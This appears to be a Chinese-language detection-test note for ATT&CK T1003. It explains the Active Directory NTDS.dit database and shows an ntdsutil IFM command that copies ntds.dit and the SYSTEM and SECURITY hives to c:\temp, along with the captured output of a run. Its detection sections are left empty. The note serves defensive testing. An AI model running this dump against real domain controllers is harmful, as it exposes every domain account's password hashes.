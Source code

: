 # T1003 windows-基于NTDS凭证转储2

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。
默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。但通常存储在其他逻辑驱动器上。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

使用NTDSUtil创建IFM抓取DC本地的Ntds.dit文件。

NTDSUTIL是一个命令行实用程序，在本地工作时需要AD数据库（NTDS.DIT）并支持为DCPROMO创建IFM。DCPROMO将使用IFM以“从媒体介质中安装”，这样服务器就不需要通过网络从另一台 DC 上复制域数据。适用于：Windows Server 2003，Windows Server 2003 R2，带有SP1的Windows Server 2003，Windows Server 2008，Windows Server 2008 R2。

Ntdsutil.exe是一个命令行工具，为Active Directory域服务（AD DS）和Active Directory轻型目录服务（AD LDS）提供管理工具。您可以使用ntdsutil命令来执行AD DS的数据库维护，管理和控制单个主操作，以及删除从网络中删除而未正确卸载的域控制器留下的元数据。该工具仅供有经验的管理员使用

Ntdsutil.exe的是内置在Windows Server 2008和Windows Server 2008 R2。如果您安装了AD DS或AD LDS服务器角色，则可以使用该角色。如果您安装作为远程服务器管理工具（RSAT）一部分的Active Directory域服务工具，它也将可用。

```dos
#!bash
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

IFM 是一个 NTDS.dit文件的副本，放在**C://temp**目录中。当创建一个IFM时，也会产生并挂载一个VSS快照，同时Ntds.dit文件和相关的数据也被复制到目标文件夹中。

该文件可能存储在一个正在promot的新的DC的共享文件夹中，也可能出现在还没有promot的新的服务器上。
此服务器可能无法确保IFM数据的安全，包括复制Ntds.dit文件并提取凭证数据。这个命令也可以通过 WMI 或 PowerShell 远程执行。（建议使用powershell执行，DOS命令执行异常错误）

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Windows\system32\ntdsutil.exe: ac i ntds
活动实例设置为“ntds”。
C:\Windows\system32\ntdsutil.exe: ifm
ifm: create full c:\temp
正在创建快照...
成功生成快照集 {ea08df62-9743-4068-aedb-a2c32dfd057f}。
快照 {2d92b366-961f-45f0-9202-9aa6f069139f} 已作为 C:\$SNAP_201911011107_VOLUMEC$\ 装载
已装载快照 {2d92b366-961f-45f0-9202-9aa6f069139f}。
正在启动碎片整理模式...
     源数据库: C:\$SNAP_201911011107_VOLUMEC$\Windows\NTDS\ntds.dit
     目标数据库: c:\temp\Active Directory\ntds.dit

                  Defragmentation  Status (% complete)

          0    10   20   30   40   50   60   70   80   90  100
          |----|----|----|----|----|----|----|----|----|----|
          ...................................................

正在复制注册表文件...
正在复制 c:\temp\registry\SYSTEM
正在复制 c:\temp\registry\SECURITY
快照 {2d92b366-961f-45f0-9202-9aa6f069139f} 已卸载。
在 c:\temp 中成功创建 IFM 媒体。
ifm: q
C:\Windows\system32\ntdsutil.exe: q
```

## 测试留痕

## 检测规则/思路

## 参考推荐

MITRE-ATT&CK-T1003

<https://attack.mitre.org/techniques/T1003/>

NTDSutil简介

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753343(v=ws.10)?redirectedfrom=MSDN>
